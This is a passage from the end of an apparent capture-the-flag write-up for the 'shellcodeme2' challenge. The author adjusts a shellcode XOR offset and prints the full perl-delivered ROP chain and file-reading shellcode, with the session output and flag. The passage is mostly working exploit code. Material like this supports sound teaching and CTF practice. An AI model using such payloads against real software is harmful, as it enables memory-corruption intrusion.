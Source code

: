 I tried to run the exploit and shellcode using various combinations of echo and printf (also after spawning /bin/bash) but nothing seemed to work. It seemed the exploit didn't work with those two bash builtins, while it did with python. I looked for a replacement and lo and behold: perl was installed on the remote box! I rewrote the exploit to read `flag` instead of `/etc/passwd`. For this, I had to adjust the offset:

```
xor byte [rdi + 11], 0x41
-->
xor byte [rdi + 4], 0x41
```

And **finally**, starting from the first binary:

```bash
root@kali:~# python exploit.py
id
uid=1000(shellcodeme) gid=1000(shellcodeme) groups=1000(shellcodeme)
(perl -e 'print "\x90\x06\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x8a\x06\x40\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\x08\x10\x60\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\x00\x00\x00\x00\x71\x06\x40\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x8a\x06\x40\x00\x00\x00\x00\x00\xff\x03\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x28\xf0\x5f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x71\x06\x40\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x00\x00\x00\x20\x00\x00\x00\x00"'; perl -e 'print "\xeb\x3f\x5f\x80\x77\x04\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xffflag\x41"') | ./shellcodeme2
ADCTF_I_l0v3_tH15_4W350M3_m15T4K
```

This one was tough, but a fun one nonetheless! ROP all the things! =)


